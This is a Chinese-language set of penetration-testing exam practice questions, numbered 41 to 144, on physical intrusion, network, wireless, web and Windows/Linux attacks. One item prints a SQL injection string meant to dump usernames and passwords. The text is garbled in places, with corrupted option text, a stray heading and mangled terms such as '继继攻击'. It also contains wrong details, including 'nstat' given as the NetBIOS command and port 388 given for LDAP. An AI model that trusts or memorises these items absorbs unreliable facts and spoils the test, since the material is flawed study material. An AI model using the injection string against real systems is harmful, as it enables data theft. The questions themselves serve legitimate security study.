## 41. 渗透测试人员翻找目标组织的垃圾，发现了一张光盘。他在笔记本电脑上读取了该光盘，发现其中包含几份来自人力资源部的非常敏感的文件。在这一场景中发生了哪种攻击？

1. 翻找垃圾 (Dumpster diving)
2. 尾随 (Tailgating)
3. 翻越边界 (Fence jumping)
4. 出口传感器绕过 (Egress sensor bypass)


42. 一渗透测试员冒充自动售货机维修人员，以获得目标组织设施的物理访问权限。进入后，他注意到服务器房的门使用的是简单的按钮门锁，没有使用任何种的电子认证。他可以使用哪种物理安全攻击来进入服务器房？

1. 开锁 (Lock picking)
2. 尾随进入 (Tailgating)
3. 翻墙 (Fence jumping)
4. 离口传感器绕过 (Egress sensor bypass)

43. 一渗透测试员冒充暖通空调维修人员，以获得目标组织设施的物理访问权限。进入后，她请求进入服务器房以调查冷风回风的问题。在她离开服务器房时，她偷偷地在门锁扣上贴了一块强力胶带，以便她稍后在未经授权的情况下返回房间。这种技术称为什么？

1. 开锁 (Lock picking)
2. 锁具绕过 (Lock bypass)
3. 翻墙 (Fence jumping)
4.  same 克隆 (Badge cloning)

44. 设施的外部双玻璃门安装了运动传感器，当有人离开设施时，门会自动解锁。为了获得设施的未授权访问权限，渗透测试员在门之间的缝隙处喷射了一罐空气清洁剂以触发运动传感器并解锁门。这种技术称为什么？

1. 开锁 (Lock picking)
2. 尾随进入 (Tailgating)
3. 翻墙 (Fence jumping)
4. 离口传感器绕过 (Egress sensor bypass)

45. 在目标组织一名员工后方的餐车旁排队时，渗透测试员偷走了该员工的访问门禁，并在一个假门禁上复制了其 RFID 签名。这种技术称为什么？

1. 离口传感器绕过 (Egress sensor bypass)
2. 锁具绕过 (Lock bypass)
3. 门禁克隆 (Badge cloning)
4. 翻墙 (Fence jumping)

46. 一渗透测试员早晨在目标组织的停车场等，直到她看到一名员工走向正门。她笨拙地提着几个大箱子跟在那名员工后面。她请求该员工为她扶一下门，并成功进入了设施。这种技术称为什么？

1. 尾随进入 (Piggybacking)
2. 尾随进入 (Tailgating)
3. 锁具绕过 (Lock bypass)
4. 门禁克隆 (Badge cloning)

47. 一渗透测试员观察到目标组织的许多员工每天上午 10 点和下午 2 点在设施后门外聚集抽烟。第二天，测试员加入小组并假装和他们一起抽烟。当小组抽完烟后，测试员跟在身后进入后门。这种技术称为什么？

1. 尾随进入 (Piggybacking)
2. 尾随进入 (Tailgating)
3. 锁具绕过 (Lock bypass)
4. 门禁克隆 (Badge cloning)

48. 目标组织的设施被一个带有铁刺网的高丝网围栏包围。渗透测试员观察到围栏的一个远程区域长满了灌木丛。深夜，她使用断丝钳在围栏上剪开一个口子，以便稍后可以穿过去。这种技术称为什么？

1. 离口传感器绕过 (Egress sensor bypass)
2. 锁具绕过 (Lock bypass)
3. 门禁克隆 (Badge cloning)
4. 翻墙 (Fence jumping)

49. 一渗透测试员观察到目标组织的垃圾在每周二早晨被运走。周一深夜，她爬进组织的垃圾收集箱，收集了丢弃的文件、光盘和存储设备（如优 闪盘）。在这种场景中发生了哪种利用？

1. 翻垃圾桶 (Dumpster diving)
2. 尾随进入 (Tailgating)
3. 翻墙 (Fence jumping)
4. 离口传感器绕过 (Egress sensor bypass)

50. 开锁至少需要哪些工具？（选择两项）

1. 内部锁定机制示意图
2. 一罐喷雾润滑剂
3. 弹力扳 (tension wrench)
4. 开锁工具 (lock pick tool)

51. 一渗透测试员冒充暖通空调维修人员，以获得目标组织设施的物理访问权限。进入后，她请求进入服务器房以调查冷风回风的问题。在她离开服务器房时，她偷偷地在门缝中塞入了一个小木楔，防止门完全关闭。这使得她稍后可以在未经授权的情况下返回房间。这种技术称为什么？

1. 开锁 (Lock picking)
2. 锁具绕过 (Lock bypass)
3. 翻墙 (Fence jumping)
4. 门禁克隆 (Badge cloning)

52. 以下离口传感器的功能可以被操纵以允许渗透测试员在未经授权的情况下进入建筑？

1. 紧急故障开启 (Emergency fail open)
2. 自动锁定
3. 通过运动传感器离口自动解锁
4. 通过光敏传感器离口自动解锁

53. 一渗透测试员翻找目标组织的垃圾，找到了一个丢弃的访问门禁。她以丢弃的门禁为模型，制作了一个带有自己照片的新门禁。她使用设备读取丢弃门禁的磁条，并将其复制到假门禁上。在这种场景中，测试员使用了哪些技术？（选择两项）

1. 开锁 (Lock picking)
2. 翻垃圾桶 (Dumpster diving)
3. 翻墙 (Fence jumping)
4. 门禁克隆 (Badge cloning)
5. 锁具绕过 (Lock bypass)

54. 渗透测试员通过侦察获目标组织的员工使用 RFID 访问门禁来解锁设施内的门。通过公司网站，他识别了组织内部的高层员工。然后他在停车场等候，直到看到其中一人走向正门。他跟在他们身后进入接待区，大衣里着着小型 RFID 阅读器。他捕获了该个人门禁的 RFID 签名，然后创建了自己的假门禁并用该签名进行编码。这是什么技术？

1. 尾随进入 (Piggybacking)
2. 尾随进入 (Tailgating)
3. 锁具绕过 (Lock bypass)
4. 门禁克隆 (Badge cloning)

55. 一渗透测试员正在为客户进行灰盒测试。在网络扫描期间，她注意到一个主机开放了 TCP 139。她怀疑这是一个 Windows 系统，于是运行了 `nstat` 命令并发现了关于该主机的关键信息。远程主机上的哪种协议允许测试员收集到这些信息？

1. NetBIOS
2. SNMP
3. NAC
4. SMTP

56. 在灰盒渗透测试的信息收集阶段，你在本地网络上运行 `nstat -c` 命令。输出中的其中一行显示如下：

```
Name Type Host Address Life [sec]
--------------------------------------------
DEV-1 <20> UNIQUE 10.0.0.3 517
```
关于 `DEV-1` 主机你了解什么？

1. 它是一台服务器。
2. 它是一个工作站。
3. 它是一个路由器。
4. 它是一个无线设备。

57. 在灰盒渗透测试的信息收集阶段，你在本地网络上运行 `nstat -c` 命令。输出中的其中一行显示如下：

```
Name Type Host Address Life [sec]
--------------------------------------------
PROD-9 <00> UNIQUE 10.0.0.132 517
```
关于 `PROD-9` 主机你了解什么？

1. 它是一台服务器。
2. 它是一个工作站。
3. 它是一个路由器。
4. 它是一个无线设备。

58. 关于 LLMNR 协议，以下哪些是正确的？（选择两项）

1. 它在缺少 DNS 服务器的情况下常用。
2. Linux 主机不支持它。
3. Windows 主机不支持它。
4. 它仅供路由器使用，不支持工作站或服务器。
5. 它允许 IPv6 主机在本地链路上解析主机名。

59. 以下哪些描述了使用 LLMNR 协议相关的安全风险？（选择两项）

1. 数据明文传输。
2. 它缺乏安全控制措施。
3. 恶意主机可以宣称它是任何想成为的主机。


4. 它可以用于辅助 DDoS 攻击。
5. 它会产生过量的网络流量。

60. 服务器消息块 (`SMB`) 协议的作用是什么？（选择两项）
1. 在网络上共享文件
2. 在邮件传输代理 (`MTAs`) 之间传输电子邮件消息
3. 在网络上共享打印机
4. 将 IP 地址映射到 MAC 地址
5. 将电子邮件消息传输到邮件用户代理 (`MUA`)

61. 下面哪些利用是利用 `SMB` 协议的漏洞而实现的？（选择两项）
1. 分布式拒绝服务 (`DDoS`)
2. Fraggle
3. Teardrop
4. EternalBlue
5. WannaCry

62. `SMB` 协议使用哪些端口？（选择两项）
1. 53
2. 80
3. 139
4. 443
5. 445

63. 下面哪些项是与 `SNMPv1` 协议相关的漏洞？（选择两项）
1. 团体字符串（community string）对于每个 `SNMPv1` 都是有效的。
2. 团体字符串以明文形式传输。
3. 团体字符串使用弱的 `RC2` 密算法。
4. 与 `SNMPv1` 主机通信不需要身份验证。
5. 管理信息库 (`MIB`) 以未加密格式存储。

64. `SNMP` 协议使用哪个端口？
1. `UDP` 161
2. `TCP` 23
3. `TCP` 389
4. `UDP` 88

65. 简单邮件传输协议 (`SMTP`) 的功能是什么？
1. 在网络上共享文件
2. 在邮件传输代理 (`MTAs`) 之间传输电子邮件消息
3. 将 IP 地址映射到 MAC 地址
4. 将电子邮件消息传输到邮件用户代理 (`MUA`)

66. 在灰盒渗透测试期间，你发现旧服务器上运行着一个开放的 `SMTP` 服务。你想使用此 `SMTP` 服务向用户发送钓鱼邮件。这是哪种利用手段？
1. 分布式拒绝服务
2. `SMTP` 继继
3. Fraggle
4. Teardrop

67. 在灰盒渗透测试期间，你发现旧服务器上运行着一个开放的 `SMTP` 服务。你想使用此 `SMTP` 服务向机构的 CEO 和 CFO 发送鱼叉鱼邮件（whaling emails）。你如何从笔记本电脑远程实现这一点？
1. `Telnet` 连接到端口 `25` 的 `SMTP` 服务器 IP 地址并创建消息。
2. 使用物理安全手段访问服务器，你可以在服务器上创建消息。
3. 使用伪装技术欺骗服务器泄露其密码。
4. 以上都不是。

68. `FTP` 服务器使用哪些端口？（选择两项）
1. 20
2. 21
3. 22
4. 23
5. 25

69. 在执行黑盒渗透测试时，你发现目标网络上的一个未知主机与互联网上的主机之间通过端口 `20` 和 `21` 传输了大量的 `FTP` 数据。你如何利用这些流量来获取目标网络上系统的访问权限？
1. 进行分布式拒绝服务 (`DDoS`) 攻击。
2. 进行陆地攻击（land attack）。
3. 使用嗅探器捕获 `FTP` 流量。
4. 使用匿名 `FTP` 访问将键盘记录器上传到 `FTP` 服务器。

70. 你正在进行灰盒渗透测试。你想捕获高级别的身份验证凭据。为了实现这一目标，你搭建了一个看起来与管理报销请求的 Web 服务器完全相同的伪内部 Web 服务器。向机构的 `DNS` 服务器注入虚假的 `DNS` 记录，将流量从真实服务器重定向到你的伪服务器。这是哪种利用手段？
1. `DNS` 投毒
2. `ARP` 投毒
3. 钓鱼
4. 鱼叉攻击

71. 下面哪项可以防御 `DNS` 投毒攻击的机制？
1. 实施 `DNSSEC`。
2. 在 DNS 服务器的主防火墙中关闭端口 `53`。
3. 在路由器配置中禁用 `ICMP` 转发。
4. 使用 `SSH` 进行 `DNS` 查询。

72. 一名测试人员正在进行灰盒渗透测试。她构造了一个特洛木利用程序，刷新本地工作站的 `DNS` 缓存，并将其替换为指向虚假 Web 服务器的恶意解析条目。当机构内的客户端尝试解析主机名时，使用了本地 `DNS` 缓存中的恶意条目。这是哪种利用手段？
1. `DNS` 投毒
2. `ARP` 投毒
3. `DNS` 缓存投毒
4. 中间人

73. 一名测试人员正在进行灰盒渗透测试。她注意到机构的某个分机构使用仅缓存的 `DNS` 服务器来处理名称解析请求。她向来自仅缓存的 `DNS` 服务器的名称解析请求发送虚假回复，并在回复包中使用伪造的源地址。虚假的名称解析记录将用户指向一个用于收集身份验证凭据的虚假 Web 服务器。这是哪种利用手段？
1. `DNS` 投毒
2. `ARP` 投毒
3. `DNS` 缓存投毒
4. 中间人

74. 在执行灰盒渗透测试期间，测试人员发现网络中的几台 Linux 工作站尚未加入该机构。尽管这些工作站安装了 `Samba` 服务，并使用 NT 管理器 (NTLM) 连接到 Windows 服务器以访问共享文件夹，测试人员捕获了工作站与服务器之间传输的用户哈希凭据。这是哪种利用手段？
1. `ARP` 投毒
2. Fraggle 攻击
3. 绕过 NAC
4. 哈希

75. 在灰盒渗透测试期间，测试人员向网段发送虚假的 `ARP` 广播消息。结果是她的 MAC 地址被映射到另一台有效计算机的 IP 地址。这是哪种利用手段？
1. `DNS` 缓存投毒
2. `ARP` 欺骗
3. 哈希
4. 重放攻击

76. `ARP` 欺骗攻击属于哪种利用类型？
1. 拒绝服务 (`DoS`)
2. 中间人
3. 分布式拒绝服务 (`DDoS`)
4. VLAN 跳跃

77. 在黑盒渗透测试期间，测试人员使用笔记本电脑捕捉建筑发出的无线信号。通过这种方式，他捕获了授权客户端连接网络时使用的握手过程。他随后在无线网络上重发此握手，允许他的笔记本作为该授权客户端连接到无线网络。这是哪种利用手段？
1. `DNS` 缓存投毒
2. `ARP` 欺骗
3. 哈希
4. 重放攻击

78. 重放攻击通常归类为哪种利用类型？
1. 拒绝服务 (`DoS`)
2. 绕过 NAC
3. 分布式拒绝服务 (`DDoS`)
4. 中间人

79. 在灰盒渗透测试期间，测试人员能够捕获从客户端传输到服务器的数据包。测试人员的工作站伪装成服务器面向客户端。测试人员修改数据包中的数据，然后将其转发到服务器。此时，测试人员的工作站伪装成客户端面向服务器。这是哪种利用手段？
1. 继继攻击
2. `DNS` 欺骗
3. 哈希
4. 重放攻击

80. 在灰盒渗透测试期间，测试人员能够捕获从客户端传输到服务器的数据包。测试人员的工作站伪装成服务器面向客户端。测试人员查看数据包中的数据，但在将其转发到服务器之前不进行修改。这是哪种利用手段？
1. 继继攻击
2. `DNS` 欺骗
3. 哈希


## 4. 重放攻击

81. 哪种利用类型会欺骗 Web 服务器，向用户的浏览器提供 HTTP 连接，而不是用户最初请求的 HTTPS 连接？
1. `SSL stripping`
2. `Relay attack`
3. `NAC bypass`
4. `Cross-site scripting`

82. 防御 `SSL stripping` 攻击的最佳方法是什么？
1. 更新用户工作站上的病毒定义。
2. 实施网络入侵检测 (`NID`) 设备。
3. 实施严格的 `HSTS` 策略，防止用户的浏览器在在未使用 `HTTPS` 连接的情况下打开页面。
4. 重新配置所有浏览器以要求 `TLS` 会话。

83. 在灰盒渗透测试期间，测试人员充当 Web 服务器和终端用户工作站之间的中间人。当用户浏览器使用 `TLS 1.2` 从 Web 服务器请求页面时，测试人员更改了请求，并指定使用 `SSL 2.0` 来保护会话。在这种情况下发生了哪种攻击利用？
1. `SSL stripping`
2. `Downgrade`（降级）
3. `NAC bypass`
4. `Replay attack`

84. 在灰盒渗透测试期间，测试人员想要实施降级中间人攻击，将 浏览器会话的安全性从 `TLS` 降低到 `SSL`。攻击者可以使用哪种利用来欺骗客户端工作站，使其认为工作站就是 Web 服务器，反之亦然？
1. `ARP spoofing`
2. `Replay attack`
3. `Pass the Hash`
4. `SYN attack`

85. 在灰盒渗透测试期间，测试人员决定通过向目标组织的文件服务器发送大量从未完成的半打开 `TCP` 连接来对其进行压力测试。这是哪种攻击利用？
1. `Denial of service (DoS)``（拒绝服务）
2. `Distributed denial of service (DDoS)``（分布式拒绝服务）
3. `Replay attack`
4. `NAC bypass`

86. 在灰盒渗透测试期间，测试人员决定对一个关键网络路由器进行压力测试。她向子网上的所有主机发送了数千个 `ping` 请求。然而，她伪造了请求的源地址为网络路由器的 IP 地址。结果是，路由器充满了它并未发起的 `ICMP echo response` 流量，使其难以响应合法的网络请求。这是哪种攻击利用？
1. `Denial of service (DoS)``
2. `Distributed denial of service (DDoS)``
3. `Replay attack`
4. `NAC bypass`

87. 下列哪项可以防止未经授权或不健康的设备连接到网络，即使它们正确连接到有线或无线网络？
1. `Network Access Control (NAC)`（网络访问控制）
2. `WPA2-PSK`
3. `Virtual LANs (VLANs)`（虚拟局域网）
4. `Spanning Tree Protocol (STP)`（生成树协议）

88. 在灰盒渗透测试期间，你尝试将笔记本连接到目标的无线网络。然而，目标实施了 `NAC`，阻止你的笔记本连接到生产网络。你可以做什么？
1. 运行暴力破解解攻击以破解保护生产网络的 `IPSec` 加密。
2. 使用授权设备的 `MAC` 地址伪造你的笔记本。
3. 将你的笔记本插入有线插座。
4. 创建一个 `evil twin`（邪恶节点）访问点。

89. 哪些类型的网络设备在许多 `NAC` 实现中经常被白名单？（选择两个。）
1. 笔记本电脑
2. 台式电脑
3. 服务器
4. `VOIP phones`
5. `SCADA devices`

90. 哪种方法常用于在 `VLANs` 之间跳跃？
1. `Double-tagging`（双标记）
2. `Brute-force attacks`（暴力破解攻击）
3. `MAC address spoofing`
4. `DNS poisoning`

91. 你正在进行灰盒渗透测试。为了从多个 `VLANs` 获取信息，你配置了计算机中的网卡以模拟网络交换机上的 `trunk port`。你的目标是让真实的交换机将所有 `VLANs` 的流量转发到你的设备。这种利用被称为什么？
1. `MAC address spoofing`
2. `Double-tagging`
3. `Switch spoofing`（交换机欺骗）
4. `Evil twin`

92. 哪种无线利用使用特殊的无线设备监听来自其他无线设备的 `SSID` 请求，然后伪装成请求的访问点？
1. `Karma attack`
2. `Deauth attack`
3. `Downgrade attack`
4. `Rogue access point`（非法访问点）

93. 你正在进行黑盒渗透测试。你想执行 `evil twin` 攻击以捕获无线用户数据。你需要完成以下哪些任务？（选择两个。）
1. 实施 `fragmentation attack`（分片攻击）。
2. 发送 `deauth frames` 以取消无线客户端的认证。
3. 将无线客户端连接到与目标组织相同 `SSID` 的访问点。
4. 使用暴力破解攻击破解 `WPS` 密码码。
5. 重复无线网络信号。

94. 哪种无线加密密钥破解利用涉及从捕获的无线数据包中提取少量密钥材料，然后向访问点发送 `ARP frames`？
1. `Repeating attack`（重放攻击）
2. `Downgrade attack`
3. `Deauth attack`
4. `Fragmentation attack`

95. 哪种无线利用可以通过为网络创建虚假的强制性门户来捕获受害者的用户名和密码？
1. `Repeating attack`
2. `Credential harvesting`（凭据收集）
3. `Bluesarfing`
4. `Jamming attack`（干扰攻击）

96. 哪种无线利用涉及使用暴力破解攻击破解八位数字密码码？
1. `Fragmentation attack`
2. `Credential harvesting`
3. `Bluejacking`
4. `WPS cracking`

97. 哪种无线利用涉及通过蓝牙连接向无线设备发送未经请求许可的消息？
1. `Deauth attack`
2. `Bluesarfing`
3. `Bluejacking`
4. `WPS cracking`

98. 哪种无线利用涉及与蓝牙设备（如手机）建立未经授权的连接并从中窃取信息？
1. `Deauth attack`
2. `Bluesarfing`
3. `Bluejacking`
4. `WPS cracking`

99. 一位渗透员获悉目标组织的员工使用 `RFID` 卡解锁设施内的门禁。她识别出一家员工经常聚餐的餐厅。第二天，她坐在一桌离组织员工很近的地方，并带有一个隐藏的小型 `RFID` 阅读器。她获取了员工工卡的 `RFID signature`，然后使用这些 `RFID signatures` 创建了伪卡。这种技术称为什么？
1. `WPS cracking`
2. `Credential harvesting`
3. `Jamming`
4. `RFID cloning`

100. 哪种无线利用是一种旨在防止用户无法使用无线网络的压力测试？
1. `Karma attack`
2. `Deauth attack`
3. `Downgrade attack`
4. `Jamming attack`

101. 一位渗透员冒充自动售货机维修人员进入目标组织的设施。在内部，渗透员在自动售货机后隐藏了一个无线设备，该设备捕捉组织的无线网络无线信号并高增益向停车场发射。渗透员在这一场景中使用了哪种无线利用？
1. `Karma attack`
2. `Repeating attack`
3. `Downgrade attack`
4. `Jamming attack`

102. 一位渗透员正在搜索目标组织使用的 Web 应用程序漏洞。在登录页面，她在密码字段中输入了以下字符串：

```
UNION SELECT Username, Password FROM Users;
```

此示例使用了哪种类型的利用？
1. `SQL injection`
2. `HTML injection`
3. `Command injection`
4. `Code injection`


### 103. 一名渗透人员审查了目标组织首席信息官（CIO）拥有的社交媒体账户，并列出了一些可能的密码，例如其配偶的名字、宠物的名字、喜欢的运动队等。测试人员尝试一个接一个使用可能的密码登录 CIO 的账户，试图找到一个有效的密码。这是哪种身份验证漏洞？

1. 凭据暴力破解 (Credential brute-forcing)
2. 会话劫持 (Session hijacking)
3. 重定向攻击 (Redirect attack)
4. 密码破解 (Password cracking)

### 104. 在一次灰盒渗透测试期间，测试人员使用 `Wireshark` 嗅探员工 浏览器与网站之间的网络流量，并成功捕获了 `session cookie`。随后，测试人员能够在不捕获用户实际身份验证凭据的情况下冒充受害者。在这种情况下，使用了哪种身份验证漏洞？

1. Kerberos 漏洞 (Kerberos exploit)
2. 会话劫持 (Session hijacking)
3. 重定向攻击 (Redirect attack)
4. 密码破解 (Password cracking)

### 105. 在一次灰盒渗透测试期间，测试人员使用钓鱼邮件将用户引导至一个类似于目标组织人力资源自助页的登录页面。该假页面用于捕获员工的凭据。在这种情况下，使用了哪种身份验证漏洞？

1. Kerberos 漏洞 (Kerberos exploit)
2. 会话劫持 (Session hijacking)
3. 重定向攻击 (Redirect attack)
4. 凭据暴力破解 (Credential brute forcing)

### 106. 在一次黑盒渗透测试期间，测试人员发现该组织的无线接入点配置了管理员用户名 `admin` 和密码 `Admin`。通过该配置，测试人员获取了该接入点的管理权限。在这种情况下发生了哪种身份验证漏洞？

1. 弱凭据漏洞利用 (Weak credentials exploit)
2. 重定向攻击 (Redirect attack)
3. 默认凭据攻击 (Default credentials attack)
4. 凭据暴力破解 (Credential brute-forcing)

### 107. 某渗透测试目标组织的网络管理员将其网络防火墙配置为管理员用户名 `admin` 和密码 `password`。这种配置使得该设备容易受到哪种身份验证漏洞的攻击？

1. 弱凭据漏洞利用 (Weak credentials exploit)
2. 重定向攻击 (Redirect attack)
3. 会话劫持 (Session hijacking)
4. Kerberos 漏洞 (Kerberos exploit)

### 108. 在一次灰盒渗透测试期间，测试人员能够运行一种漏洞，使其从组织 `Active Directory` 域中的密钥分发中心 (`KDC`) 获取票据授予票 (`TGT`)。在这种情况下发生了哪种身份验证漏洞？

1. 凭据暴力破解漏洞利用 (Credential brute-forcing exploit)
2. 重定向攻击 (Redirect attack)
3. 会话劫持 (Session hijacking)
4. Kerberos 漏洞 (Kerberos exploit)

### 109. 哪种授权漏洞通过修改 `HTTP` 请求中的参数来获得未经授权的信息访问权限？（选择两项）

1. 参数污染 (Parameter pollution)
2. 不安全的直接对象引用漏洞 (Insecure direct object reference exploit)
3. 跨站脚本攻击 (Cross-site scripting attack)
4. 跨站请求伪造 (Cross-site request forgery)
5. 重定向攻击 (Redirect attack)

### 110. 哪种跨站脚本 (`XSS`) 攻击利用了受害者计算机上本地运行的旧版漏洞 Web 浏览器？

1. 存储/持久型 (Stored/persistent)
2. 点击劫持 (Clickjacking)
3. 反射型 (Reflected)
4. 文档对象模型 (`DOM`)

### 111. 哪些形式的跨站脚本 (`XSS`) 攻击被认为是服务端漏洞？（选择两项）

1. 存储/持久型 (Stored/persistent)
2. 反射型 (Reflected)
3. 文档对象模型 (`DOM`)
4. 点击劫持 (Clickjacking)
5. 目录遍历 (Directory transversal)

### 112. 在一次灰盒渗透测试期间，测试人员注意到该组织的人力自助 Web 应用程序使用 `Active Directory` 用户账户进行身份验证。登录页面上还包含一个“记住我”选项。测试人员向组织内的高层员工发送了一封邮件，主题为“看看这张有趣的图片”。当邮件被打开时，隐藏的 `HTML` 代码实际上向自助 Web 应用程序发送了一个更改用户密码的 `HTTP` 请求。该攻击依赖于网站保存的 `session cookie` 来运行。这是哪种身份验证漏洞？

1. 跨站脚本 (`XSS`)
2. 跨站请求伪造 (`CSRF`)
3. 点击劫持 (Clickjacking)
4. 凭据暴力破解 (Credential brute forcing)

### 113. 哪种身份验证漏洞利用同一网页页面内的透明层，欺骗用户点击按钮或链接，而用户认为自己只是点击了页面的顶层？

1. 文件包含 (File inclusion)
2. 跨站请求伪造 (`CSRF`)
3. 点击劫持 (Clickjacking)
4. Cookie 操纵 (Cookie manipulation)

### 114. Web 服务器上的哪种安全配置错误允许使用 Web 浏览器访问网站的终端遍历 Web 服务器的文件系统？

1. 目录遍历 (Directory transversal)
2. Cookie 操纵 (Cookie manipulation)
3. 文件包含 (File inclusion)
4. 弱凭据 (Weak credentials)

### 115. 哪种安全配置错误允许用户 Web 浏览器运行的脚本向客户端 Cookie 写入数据？

1. 目录遍历 (Directory transversal)
2. Cookie 操纵 (Cookie manipulation)
3. 跨站请求伪造 (`XSRF`)
4. 点击劫持 (Clickjacking)

### 116. 一名渗透人员正尝试利用目标组织使用的 Web 应用程序。他使用 Web 应用程序中的表单字段向 Web 服务器上传恶意可执行文件。以下哪些项描述了这种漏洞？（选择两项）

1. Cookie 操纵 (Cookie manipulation)
2. 目录遍历 (Directory transversal)
3. 本地文件包含 (Local file inclusion)
4. 跨站脚本 (`XSS`)
5. 远程文件包含 (Remote file inclusion)

### 117. 以下哪些项是不安全编码实践的示例？

1. 在源代码中包含注释
2. 检查输入字段格式是否正确
3. 为错误情况包含子程序
4. 对代码进行数字签名
5. 提供详细的错误信息

### 118. 以下哪些项是不安全编码实践的示例？

1. 从源代码中移除注释
2. 检查输入字段格式是否正确
3. 缺少错误处理程序
4. 缺少代码签名
5. 移除冗余错误信息

### 119. 一名 Web 程序员将访问数据库所需的用户名和密码包含在应用程序的 `PHP` 代码中。这是哪种不安全编码实践的示例？

1. 源代码注释 (Comments in source code)
2. 竞态条件 (Race conditions)
3. 未授权的函数调用 (Unauthorized use of functions/unprotected APIs)
4. 硬编码凭据 (Hard-coded credentials)

### 120. 一名 Web 开发者在表单页面包含了以下 `HTML` 代码：

```html
<input type=hidden>
```
这是哪种不安全编码实践的示例？

1. 源代码注释 (Comments in source code)
2. 隐藏元素 (Hidden elements)
3. 未授权的函数/API (Unauthorized use of functions/unprotected APIs)
4. 竞态条件 (Race conditions)

### 121. 在执行灰盒渗透测试时，你发现目标组织的计算机使用了许多不同的操作系统。你识别了 `Windows`、`Mac OS` 和 `Linux` 系统。你甚至发现了一个 `UNIX` 服务器系统。此外，员工将移动设备带到工作中并连接到组织的无线网络，因此你发现了许多 `Android` 和 `iOS` 设备。在测试的这一阶段，你需要识别存在高价值设备上的操作系统漏洞。你应该做什么？

1. 检索常见漏洞与披露 (`CVE`) 数据库。
2. 检索常见攻击模式、枚举和分类 (`CAPEC`) 数据库。
3. 检索计算机应急响应小组 (`CERT`) 网站。
4. 在渗透测试论坛上提问。

### 122. 以下哪些项被认为是不安全的服务或协议？（选择两项）

1. LDAPS
2. SSH
3. FTP
4. Telnet
5. HTTPS


### 123. 以下哪一项被认为是不安全的服务或协议配置？（选择两项）

1. 使用 `SSHv1` 代替 `SSHv2`
2. 使用 `SNMPv3` 代替 `SNMPv1`
3. 使用 `WPA2` 代替 `WEP`
4. 使用 `SSL 2.0` 代替 `TLS 1.2`

### 124. 在渗透测试期间，你需要在 Linux 系统上使用权限提升。操作系统的哪些功能可以允许可执行文件以超级用户权限运行？（选择两项）

1. 以管理员身份运行它
2. 分配 `SGID` 特殊权限
3. 分配 `SUID` 特殊权限
4. 从子 `BASH` shell 会话运行它
5. 分配 `sticky bit`（粘位）权限

### 125. 将哪种 Linux 特殊权限分配到目录时，可以防止用户删除他们不拥有的文件，即使他们对该目录具有写和执行权限？

1. `SGID`
2. `SUID`
3. `Sticky bit`
4. `Ret2libc`

### 126. 你可以使用 Linux 系统上的哪个程序作为标准用户以 root 身份执行程序？

1. `sudo`
2. `ps`
3. `top`
4. `nice`

### 127. 哪种 Linux 漏洞会导致子程序的返回地址被进程内存中已存在的子程序的地址替换？

1. `SGID`
2. `Sticky bit`
3. `Ret2libc`
4. `Unsecure sudo`

### 128. 以下哪项是指 Windows 组策略首选项（Group Policy Preference）项目中存储密码的属性名称？

1. `cPassword`
2. `TGT`
3. `TGS`
4. `LSASS`

### 129. 在渗透测试期间，你发现管理员正在使用端口 `388` 明文 `LDAP` 来更新其符合 `LDAP` 的目录服务中的用户账户，包括用户凭据。你应该建议客户做什么来修复此？

1. 建议他们停止使用 `LDAP` 客户端管理用户账户。
2. 建议他们使用端口 `636` 上启用 `SSL` 的 `LDAP`。
3. 建议他们切换到非 `LDAP` 目录服务。
4. 建议他们使用端口 `22` 上启用 `SSH` 的 `LDAP`。

### 130. 在灰盒渗透测试期间，测试人员登录到目标组织的域，并请求注册服务的服务主体名称 (`SPN`)。收到票据后，测试人员将其离线处理并尝试破解其加密。这种利用称为什么？

1. 沙箱逃逸
2. `Kerberoasting`
3. `DLL hijacking`（DLL 劫持）
4. `Cold boot attack`（冷启动攻击）

### 131. 以下哪个运行在 Windows 系统上并强制系统安全策略的服务？

1. `LSASS`
2. 密钥分配中心 (`KDC`)
3. 组策略对象 (`GPO`)
4. `LDAP`

### 132. 哪种 Windows 功能可能允许身份凭据以明文形式通过网络连接传输？

1. 通过 `PXE` 进行无人值安装
2. `JTAG debug`
3. `Remote Desktop`（远程桌面）
4. 加入域

### 133. Windows 系统上的 `SAM` 数据库存储了什么？

1. 安全日志条目
2. 与系统中安装的每个应用程序相关的数字签名
3. 组策略设置
4. 哈希后的账户密码

### 134. 在灰盒渗透测试期间，测试人员创建了一场钓鱼活动，诱骗用户下载木马应用程序，该程序会静静地替换本地系统上的关键动态链接库文件，使用修改后的版本，该版本在执行时会加载键盘记录器。这种类型的漏洞称为什么？

1. `JTAG debug`
2. `Cold boot attack`
3. `cPassword`
4. `DLL hijacking`

### 135. 以下哪些是 Windows 系统上的服务可以被利用的方法？（选择两项）

1. 使用未加引号的服务路径
2. 替换可写服务的可执行文件
3. 实施 `cold boot attack`
4. 破解 `LSASS` 中的凭据

### 136. 以下哪种问题可能允许渗透测试人员在 Windows 系统上执行 `DLL hijacking` 漏洞？

1. 未安装最新的 Windows 更新
2. 使用过时的病毒定义文件
3. 使用不安全的文件和文件夹权限
4. 未在组策略中配置用户账户限制

### 137. 以下哪些技术可以帮助在 Windows 系统上维持漏洞的持久化？（选择两项）

1. 使用计划任务
2. 使用 `cold boot attacks`
3. 实施 `Kerberoasting`
4. 使用 `DLL hijacking`
5. 寻找内核漏洞

### 138. 防御内核漏洞的最佳方法是什么？

1. 更新系统的防病毒软件定义。
2. 安装最新的操作系统更新。
3. 使用安全的文件和文件夹权限。
4. 在组策略中实施用户账户限制。

### 139. 在灰盒渗透测试期间，测试人员发现该机构的一个防火墙配置了管理员用户名 `admin` 和密码 `Admin`。测试人员获取了其管理访问权限。发生了哪种利用？

1. `Weak credentials`（弱凭据）
2. `Redirect`（重定向）
3. `Default account exploit`（默认账户利用）
4. `Credential brute-forcing`（凭据暴力破解）

### 140. 以下哪些是沙箱逃逸的示例？（选择三项）

1. `Cold boot attacks`
2. `Shell upgrade`
3. `Virtual machine (VM) escape`
4. `Container escape`
5. `Ret2libc`
6. `JTAG debug`

### 141. 在渗透测试期间，测试人员获取了服务器的物理访问，并从安装有 Linux 发行版的优盘启动它。发生了哪种利用？

1. `Cold boot attack`
2. `Shell upgrade`
3. `VM escape`
4. `JTAG debug`

### 142. 测试人员连接到制造商在主板上的特殊端口，并能够获取寄存器数据。发生了哪种利用？

1. `Cold boot attack`
2. `Shell upgrade`
3. `JTAG debug`

### 143. 在路由器和交换机等网络设备上启用串口连接的风险是什么？

1. 网络管理员往往不会妥善保护它们。
2. 它们容易泄露数据。
3. 攻击者很容易连接到它们。
4. 攻击者很容易从它们上嗅探数据。

### 144. 以下哪项用于 Windows 系统以允许你在网络上的另一台 Windows 系统上执行代码？

1. `RPC/DCOM`
2. `X-server`
3. `RSH`
4. `Rlogin`

